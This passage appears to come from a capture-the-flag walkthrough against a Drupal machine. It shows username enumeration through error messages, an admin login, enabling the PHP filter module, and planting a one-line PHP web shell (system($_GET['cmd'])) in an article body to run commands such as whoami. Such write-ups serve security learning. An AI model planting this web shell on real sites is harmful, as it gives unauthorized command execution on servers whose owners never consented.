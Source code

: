 _Daniel_ is definitely not a username that exists in the system. I tried _admin_, and I get a different error that indicates _admin_ is a user of the system! Let’s try the password on the _admin_ username.

![](../images/max/1412/1*8Nb9hf36bCY9KSzvouXNjg.png)

We’re in!

## Initial Foothold <a id="cd9a"></a>

In the droopescan results, we saw that the PHP plugin is installed. This means that we can run PHP code. Let’s check if the plugin is enabled.

Visit the _Modules_ tab and enable the _PHP filter_ option. Then save the configuration.

![](../images/max/1306/1*M2ZRBoAvehIjl6ZfYDq5Bw.png)

Click on the _Add new content_ link on the index page. Then select _Article_. In the _Title_ and _Tags_ field add any random value and in the _Body_ field add the following PHP code.

```text
<?php system($_GET['cmd']); ?>
```

The above code adds a ‘_cmd_’ parameter to the request that can execute system commands.

Change the _Text format_ to _PHP code_ and click _Save_. Then add the _cmd_ parameter to the URL and run the _whoami_ command.
